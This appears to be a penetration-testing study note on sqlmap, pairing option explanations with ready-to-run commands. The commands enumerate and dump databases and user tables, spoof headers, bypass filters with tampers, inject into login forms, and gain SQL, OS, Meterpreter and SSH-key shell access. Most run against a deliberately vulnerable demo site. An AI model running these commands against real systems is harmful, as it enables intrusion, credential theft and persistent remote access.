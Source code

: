 ### Main Syntax
- **-u** : Enter the *URL* of the *Website*
- **--batch** : To *Select* all the *Default Prompts Automatically*
- **--threads** : Number of *Connections to Make*. Default: 1, Max: 10. Use if <u>Website is Large</u>.
- **--data=** : Data string to be sent through *POST* (e.g. "id=1")
- **-p** : Testable parameter(s)

![[Pasted image 20230505093140.png]]

#### Techniques
- B: Boolean-based Blind
- E: Error-based
- U: Union query-based
- S: Stacked Queries
- T: Time-based Blind
- Q: Inline Queries

`--technique "B"`



#### Crawl
**Depth 1:** http://www.example.com/news
**Depth 2:** http://www.example.com/news/newest/
**Depth 3:** http://www.example.com/news/newest/terror/
**Depth 4:** http://www.example.com/news/newest/terror/country/

`--crawl 3`



#### Risk
**1** : Tries *Non-Harmful Payloads*, Won't Affect the Server Much (Default).
**2** : Tries *Time-Based Blind SQLi*, Combines 1 & 2.
**3** : Tries *OR-based SQLi*, Combines 1, 2, 3. Can be **Harmful** if Executes & Might change the Database!

`--risk 3`


#### Level
Increases the **Range** of your SQli Test.
**1** : Checks for *Vulnerable Inputs* (Default)
**2** : Checks for *Vulnerability in the Cookies Section* too!
**3** : Checks for *Vulnerability in the User-Agent Section* too!
.
.
Upto **5**

%%  Note : The Chances of False Positivity increases When using Risk/Level  %%

`--level 1`



#### Verbosity
- **0** : Shows only Python tracebacks, error & critical messages.
- **1** : Shows information & warning messages.
- **2** : Shows debug messages.
- **3** : Shows Tampers injected.
- **4** : Shows also HTTP Requests.
- **5** : Shows also HTTP Response Headers.
- **6** : Shows also HTTP Response Page Content.

`-v 4`

---
# User Enumeration
After you find the vulnerable input field :-
![[Pasted image 20230505103738.png]]

To get **Current User, Current Database, Hostname** :-
```sh
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --current-user --current-db --hostname
```

![[Pasted image 20230505104323.png]]


To get **all** the **Database Names** on the server :-
```sh
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs --batch 
```

![[Pasted image 20230505104814.png]]


To get the **Tables** Inside a Database :-
```sh
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D [database_name] --tables
```

![[Pasted image 20230505105106.png]]


To Get all the **Columns** Inside a Database :-
```sh
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users --columns
```

![[Pasted image 20230505105909.png]]

To Dump **All the Column Entries** inside a Database :-
```sh
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users --dump --batch
```

![[Pasted image 20230505105641.png]]


To Dump all the Tables & Their Entries :-
`sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --dump-all`
%%   Note : Might take time if there are many databases   %%

---
# Output Directory
To Change the Output directory of the Results :-
`sqlmap -u http://testphp.vulnweb.com/ --crawl 3 --output-dir="/root/Documents/" --batch`

---
# Headers

- To Add User-Defined Headers :-
`sqlmap -u http://testphp.vulnweb.com/ --crawl 3 --headers="[header:value]" -v 4 --batch`

![[Pasted image 20230505111222.png]]

- **Cookie**
```sh
sqlmap -u http://testphp.vulnweb.com/ --crawl 3 --cookie="[name]=[value]" -v 4 --batch
```

- **User-Agent**
There might exist a *Firewall which will Analyze Your User-Agent* Header & *Block It* if Not Matching!
To Change your User-Agent Header :-
`sqlmap -u http://testphp.vulnweb.com/ --crawl 3 --user-agent="[User_Agent]" -v 4 --batch`

![[Pasted image 20230505111645.png]]


- **Mobile Request**
To make the Server think that the *Request is Coming* from a *Mobile* :-
```sh
sqlmap -u http://testphp.vulnweb.com/ --crawl 3 --mobile -v 4 --batch
```

![[Pasted image 20230505112351.png]]

---
# Tampers
Used to **Bypass FIlters & Restrictions** of The Server!

- To List all the Tampers :-
`sqlmap --list-tampers`

- To Apply a Tamper in the Command :-
`sqlmap -u http://testphp.vulnweb.com/ --crawl 3 --tamper=[tamper_name] -v 3 --batch`


![[Pasted image 20230505113409.png]]

```sh
# Some Tampers
--random-agent
```


---
### SQLi In Login Page
- To get **All the Forms** Inside a Login Page & Find the **Vulnerable POST Request** :-
`sqlmap -u http://testphp.vulnweb.com/login.php --forms`

![[Pasted image 20230505115412.png]]


- To Run the *SQL Injection*
`sqlmap -u http://testphp.vulnweb.com/userinfo.php --data="uname=abc&pass=abc&login=submit" --dbs`

![[Pasted image 20230505120639.png]]

---
# Sqlmap With Burp Suite
First, we need to Identify the *vulnerable POST request* and save it.![[Pasted image 20230505122529.png]]

Then,
`sqlmap -r <request_file> -p <vulnerable_parameter> --dbs --batch`

---
# Shell
SQL Shell: `sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell`
OS Shell: `sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell`
Meterpreter: `sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn`
SSH Shell: `sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/`
